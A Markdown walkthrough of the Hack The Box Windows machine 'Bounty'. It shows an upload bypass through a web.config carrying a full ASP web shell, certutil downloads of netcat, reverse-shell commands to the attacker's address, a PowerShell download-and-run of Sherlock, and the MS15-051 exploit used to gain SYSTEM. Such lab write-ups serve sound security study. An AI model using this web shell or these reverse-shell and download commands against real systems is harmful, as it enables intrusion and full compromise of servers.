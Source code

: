```yaml
---
title: Bounty
tags: windows
---
```


![image](assets/79369796-888ee000-7f1f-11ea-9fb0-30af4d5aff32.png)

## Overview

Bounty is a Windows box running IIS and ASP.NET. There is a web page that only allowed image files to be uploaded but I was able to bypass the file restriction by uploading a web.config with embedded asp code in order to get the initial foothold. Running Sherlock I determined that it was vulnerable to MS15-051 exploits improper object handling in the win32k.sys kernel mode driver to get a shell as 'nt authority/system'.

## Enumeration

**Software**

* Microsoft Windows Server 2008 R2 Datacenter
* Microsoft IIS 7.5

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.93 -oN /mnt/data/boxes/bounty/_full_tcp_nmap.txt 
```
* 80/tcp - http

**Directory/File Brute Force**

```
gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx -t 35
```

> The nmap scan shows this is a Windows server running IIS which typically run ASP.NET pages (asp/aspx). This isn't always the case but I decided to start by specifying those two extensions.

![image](assets/80209534-41c87680-8600-11ea-96c7-b023ce0a293a.png)

* /UploadedFiles/
* /transfer.aspx

## Steps (User)

The gobuster scan provided two results: transfer.aspx and Uploadedfiles. The first provided a mechanism to upload files and the second appeared to be where those files are uploaded to. Starting with the transfer page; image files can be uploaded but I was not able to upload .asp, .aspx, .cer, .asa, .asax...

![image](assets/80257645-64ce4700-864f-11ea-9912-97bc0b4e637d.png)

I was able to view the philociraptor image that was uploaded.

![image](assets/80257707-84fe0600-864f-11ea-8fb2-931a34a634a0.png)

After an internet search I came across an article by [Soroush](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) which showed how to use the web.config file to run asp classic code. I combined Soroush's template with the one found [here](https://github.com/tennc/webshell/blob/master/asp/webshell.asp) to create the web.config. The web.config now had asp code that would allow me to run commands.

> Web.config is a configuration file that is used to customize the way a site or directory behaves on a server

**web.config**

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
```

I uploaded the modified config file via the transfer.aspx page and browsed to http://10.10.10.93/uploadedfiles/web.config

![image](assets/80321152-e60d1180-87e8-11ea-85c5-954ab115548a.png)

> I had to repeat the upload multiple times as the file kept getting removed. To streamline this process I captured the file upload so I could easily rerun the web request to upload the file. Additional steps needed to execute commands via the webshell once it was uploaded were also done this way.

Since I I now had command execution, I prepared my machine to transfer files by starting a python http server and started a netcat listener (rlwrap nc -lvnp 4200)

> Note: rlwrap fixes the arrow key functionality for windows reverse shells.

```
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

Via the webshell, the certutil command was used to copy the file http to the target box. I copied it to the c:\windows\temp folder to prevent it from being automatically removed. 

```
certutil -urlcache -split -f http://10.10.14.22/nc.exe c:\windows\temp\nc.exe
```

With netcat on the box I was able to run a command to create a reverse shell.

```
c:\windows\temp\nc.exe -e cmd 10.10.14.22 4200
```

![image](assets/80321650-b06a2780-87ec-11ea-99bd-b84a6dc0351f.png)


## Steps (root/system)

Not seeing any hotfixes applied after running sysinfo I proceeded to run sherlock to look for exploits. First I copied sherlock to my working directory.

```
cp ~/tools/Sherlock/Sherlock.ps1 .
```

I used Powershell Invoke-Expression (IEX) to run sherlock in memory, executing Find-AllVuns function

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.22/Sherlock.ps1');Find-AllVulns"
```

![image](assets/80321918-2bccd880-87ef-11ea-996b-3ba58f7fcb49.png)


This box appeared to be vulnerable to MS15-051 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051-KB3045171.zip

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing.

ms15-051x64.exe was extracted to my working directory and copied to the target via the python http server.

```
python3 -m http.server 80
```

Certutil was used to download ms15-051x64.exe to the c:\windows\temp directory.

```
certutil -urlcache -split -f http://10.10.14.22/ms15-051x64.exe c:\windows\temp\ms15-051x64.exe
```

I started a netcat listener on my box, specifiying a different port (rlwrap nc -lvnp 4201). 

```
rlwrap nc -lvnp 4201
```

With the exploit on the target system I used it to create a reverse shell and received a callback as user 'nt authority\system'.

```
c:\windows\temp\ms15-051x64.exe -e cmd.exe 10.10.14.16 4201
```

![image](assets/80322013-de9d3680-87ef-11ea-9e1f-5bd8c1634778.png)
